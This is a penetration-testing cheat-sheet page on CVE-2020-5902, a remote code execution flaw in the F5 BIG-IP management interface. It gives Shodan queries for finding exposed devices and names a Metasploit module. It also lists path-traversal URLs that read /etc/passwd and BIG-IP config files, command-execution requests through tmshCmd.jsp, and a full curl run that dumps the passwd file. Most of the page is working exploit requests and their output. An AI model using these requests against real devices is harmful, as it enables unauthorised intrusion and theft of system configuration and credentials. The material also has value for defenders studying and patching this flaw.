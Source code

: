 icon:fontawesome/solid/unlock-keyhole

# CVE-2020-5902

CVE-2020-5902 - F5 BIG-IP TMUI RCE

In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages.

## Shodan Search

```bash
title:"Big-IP&reg;" org:"Organization Name"
http.title:"BIG-IP&reg;- Redirect" org:"Organization Name"
http.favicon.hash:-335242539 "3992" org:"Organization Name"
```

## Metasploit Module

```bash
modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```

## Valid Interface Accessible

You need to get a 200OK on the following request.

```bash
curl -v -k  'https://{host}/tmui/login.jsp'
```

## Check (Local File Inclusion)

Interesting files:

```bash
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://{host}/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
https://{host}/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=jaffa
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

## Remote Code Execution

```bash
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
```

```bash
curl -v -k  'https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

## Example RCE

```bash
$ curl -v -k 'https://10.10.10.10/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
*   Trying 10.10.10.10:443...
* TCP_NODELAY set
* Connected to 10.10.10.10 (10.10.10.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/ssl/certs/ca-certificates.crt
  CApath: /etc/ssl/certs
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server did not agree to a protocol
[...]
> GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
> Host: 10.10.10.10
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 06 Jul 2020 09:08:33 GMT
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Set-Cookie: JSESSIONID=E3418E061E43DC67AC2E9D59A4E42FC2; Path=/tmui; Secure; HttpOnly
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 7630
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Vary: Accept-Encoding
<

{"output":"root:x:0:0:root:\/root:\/bin\/bash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucp:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/sbin\/nologin\nnobody:x:99:99:Nobody:\/:\/sbin\/nologin\ntmshnobody:x:32765:32765:tmshnobody:\/:\/sbin\/nologin\nadmin:x:0:500:Admin User:\/home\/admin:[...]
```

## References

- [Nnd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-5902)
- [Support.f5.com](https://support.f5.com/csp/article/K52145254)
- [Cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902)
- [Tenable.com](https://www.tenable.com/cve/CVE-2020-5902)

